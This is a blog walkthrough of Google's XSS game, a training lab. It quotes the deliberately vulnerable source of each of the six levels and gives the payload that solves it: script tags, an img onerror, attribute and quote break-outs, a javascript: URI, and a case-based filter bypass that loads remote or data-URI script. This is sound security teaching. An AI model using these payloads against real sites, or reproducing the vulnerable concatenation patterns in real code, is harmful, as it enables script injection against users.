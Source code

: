 ```yaml
---
layout:     post
title:      "Google XSS Games"
date:       2018-09-23 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Web Security"
---
```


Today we're playing with a little different challenge, series of XSS challenges from Google hosted [here](https://xss-game.appspot.com). Give it a go, before reading this write up!

### Level 1: Hello, world of XSS

Firstly, we navigate to the [challenge website](https://xss-game.appspot.com/level1). 

![Level One Overview](/img/xss-game/level1-overview.png){:class="img-responsive center-block"}

By entering a simple `<script>alert(1)</script>`, we get a working XSS attack. 

![Level One XSS](/img/xss-game/level1-xss.png){:class="img-responsive center-block"}

But why is that? Let's take a look at the source code. 

{% highlight python %}
page_header = """
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level1">
    <img src="/static/logos/level1.png">
      <div>
"""
 
page_footer = """
    </div>
  </body>
</html>
"""
 
main_page_markup = """
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..."
    onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
"""
 
class MainPage(webapp.RequestHandler):
 
  def render_string(self, s):
    self.response.out.write(s)
 
  def get(self):
    # Disable the reflected XSS filter for demonstration purposes
    self.response.headers.add_header("X-XSS-Protection", "0")
 
    if not self.request.get('query'):
      # Show main search page
      self.render_string(page_header + main_page_markup + page_footer)
    else:
      query = self.request.get('query', '[empty]')
       
      # Our search engine broke, we found no results :-(
      message = "Sorry, no results were found for <b>" + query + "</b>."
      message += " <a href='?'>Try again</a>."
 
      # Display the results page
      self.render_string(page_header + message + page_footer)
     
    return
 
application = webapp.WSGIApplication([ ('.*', MainPage), ], debug=False)
{% endhighlight %}

Basically, whatever we enter in a query will be inserted into the webpage. This allows us to enter any malicious code we want. 

### Level 2: Persistence is key

Next challenge is a little bit different, we get some chat application. 

![Level Two Overview](/img/xss-game/level2-overview.png){:class="img-responsive center-block"}

This time we can't simply insert `<script>alert(1)</script>`, as in the sent message nothing will be shown. That's because inserting HTML content in the DOM using `innerHTML` won't run the script.

But another simple attack will be to use `<img>` tag and `onerror` atrribute, just enter an invalid path to the image and script from `onerror` will execute. 

Just like this - `<img src=1 onerror=alert(1)>`. 

![Level Two XSS](/img/xss-game/level2-xss.png){:class="img-responsive center-block"}

### Level 3: That sinking feeling...

This time we get a simple gallery. 

![Level Three Overview](/img/xss-game/level3-overview.png){:class="img-responsive center-block"}

We can modify an image that we want to see by clicking on the buttons, or by observing an URL `https://xss-game.appspot.com/level3/frame#3`. Each image has different number, but only three first will produce an valid image. 

Viewing the source code of the challenge, we can see this script. 

{% highlight javascript %}
    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);

        window.location.hash = num;

        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }

        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }

      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }

      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
{% endhighlight %}

And there is potential for XSS, in line `html += "<img src='/static/level3/cloud" + num + ".jpg' />";`, just our `num` variable which is set from the value after the hash in the URL will have to look like this - `1'onerror='alert(1)//`. That way, after the execution our `html` variable will be `<img src='/static/level3/cloud1' onerror='alert(1)//.jpg' />`

![Level Three XSS](/img/xss-game/level3-xss.png){:class="img-responsive center-block"}

### Level 4: Context matters

In this challenge we get a timer that will pop an alert after a specified number of seconds we enter. 

![Level Four Overview](/img/xss-game/level4-overview.png){:class="img-responsive center-block"}

Let's take a look at the source code, just at the waiting screen. 

{% highlight html %}
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />

    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('3');" />
    <br>
    <div id="message">Your timer will execute in 3 seconds.</div>
  </body>
</html>
{% endhighlight %}

After small analysis, we can see a possible attack vector in line `onload="startTimer('3');"`, where `3` is the number of seconds we entered. If we put something like this `1');alert('1`, we could possibly put the XSS in the webpage. 

But after trying that, in the source code we can see that anything after the `;` character was omitted `onload="startTimer('1&#39;)');"`. After a little bit of research, I've found that URL encoding the character where `; => %3B` will solve this issue. 

In the end, our payload is `1')%3Balert('1`. 

![Level Four XSS](/img/xss-game/level4-xss.png){:class="img-responsive center-block"}

### Level 5: Breaking protocol

This time we have a `Groove Reader` application, with a `Sign Up` link. 

![Level Five Overview](/img/xss-game/level5-overview.png){:class="img-responsive center-block"}

After clicking the link, we are presented with a field to enter our email and another submit link. Viewing the source code gives us nothing usefull at first sight. 

{% highlight html %}
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>

  <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">

    <br><br>
    <a href="confirm">Next >></a>
  </body>
</html>
{% endhighlight %}

But after connecting a few dots, the URL `signup?next=confirm` will change the value of `next href`. Just as we change it to `test`, `signup?next=test` our `href` value changes `<a href="test">Next >></a>`. That way we can craft a simple payload - just put `javascript:alert(1)%3B` as the next paramter in the URL just like this `signupp?next=javascript:alert(1)%3B`. 

![Level Five XSS](/img/xss-game/level5-xss.png){:class="img-responsive center-block"}

### Level 6: Follow the 🐇

This time we want to execute Javascript from the remote resource, bypassing the filter from the source. 

![Level Six Overview](/img/xss-game/level6-overview.png){:class="img-responsive center-block"}

Firstly, let's take a look at the filter. 

{% highlight html %}
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />

    <script>
    function setInnerText(element, value) {
      if (element.innerText) {
        element.innerText = value;
      } else {
        element.textContent = value;
      }
    }

    function includeGadget(url) {
      var scriptEl = document.createElement('script');

      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }

      // Load this awesome gadget
      scriptEl.src = url;

      // Show log messages
      scriptEl.onload = function() { 
        setInnerText(document.getElementById("log"),  
          "Loaded gadget from " + url);
      }
      scriptEl.onerror = function() { 
        setInnerText(document.getElementById("log"),  
          "Couldn't load gadget from " + url);
      }

      document.head.appendChild(scriptEl);
    }

    // Take the value after # and use it as the gadget filename.
    function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }

    includeGadget(getGadgetName());

    // Extra code so that we can communicate with the parent page
    window.addEventListener("message", function(event){
      if (event.source == parent) {
        includeGadget(getGadgetName());
      }
    }, false);

    </script>
  </head>

  <body id="level6">
    <img src="/static/logos/level6.png">
    <img id="cube" src="/static/level6_cube.png">
    <div id="log">Loading gadget...</div>
  </body>
</html>
{% endhighlight %}

As we can see in the line `if (url.match(/^https?:\/\//)) {`, we cannot input anything matching the `https` string. But, there is a catch, we can easily do it by entering `Http` as the protocol. 

In order to exploit, host a remote file containing `alert(1)` (easily done with Pastebin), and in the URL enter `level6/frame#Https://pastebin.com/raw/******`.

Or even easier, using the data URI, just like this `data:text/javascript,alert(1)`. That way we do not even have to create any remote files

![Level Six XSS](/img/xss-game/level6-xss.png){:class="img-responsive center-block"}
